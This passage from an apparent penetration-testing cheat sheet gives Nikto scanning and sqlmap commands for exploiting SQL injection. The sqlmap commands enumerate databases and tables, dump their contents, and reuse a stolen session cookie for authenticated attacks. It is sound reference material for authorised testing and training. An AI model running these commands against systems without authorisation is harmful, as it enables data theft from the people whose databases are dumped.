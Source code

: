 #### Nikto

```bash
nikto -host $URL
```
------------------

## Gaining access
-----

#### SQLMap

```sh
# sqlmap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws.

#To get a list of basic options and switches use:
sqlmap -h (-hh for all options/extended)

#Simple HTTP GET Based Test
sqlmap -u https://testsite.com/page.php?id=1 --dbs

# -u state the vulnerable URL
# --dbs to enumerate the database.


#Simple HTTP POST Based Test - In burpsuite identify the vulnerable POST request and save it. You can right click on the request and select "Copy to file" and save the request to a local file. Next you can point SQLMap to that file using the -r parameter:

1. sqlmap -r <request_file> -p <vulnerable_parameter> --dbs
or
2. sqlmap -r <request_file> --dump --batch

#Syntax for connecting to MySQL
mysql -h [IP] -u [username] -p


###AUTHENTICATED

sqlmap -u "http://www.website.com/viewprofile.aspx?id=1" --cookie="cookie value obtained via document.cookie" --dbs

The above query causes sqlmap to apply various injection techniques on the name parameter of the URL in an attempt to extract the database information of the website.

# -u specifies the target URL
# --cookie specifies the HTTP cookie header value
# --dbs enumerates DBMS databases.

Assuming the previous comand retrieved multiple DBs and we want to use sqlmap to retrieve the tables in one database, we can use the below command:

sqlmap -u "http://www.website.com/viewprofile.aspx?id=1" --cookie="cookie value obtained via document.cookie" -D databse_name --tables

# -D specifies the DBMS database to enumerate 
# --tables enumerates DBMS database tables.

Once the tables found and we want to retrieve/dump the content of a specific table, use command:

sqlmap -u "http://www.website.com/viewprofile.aspx?id=1" --cookie="cookie value obtained via document.cookie" -D databse_name -T table_name --dump

```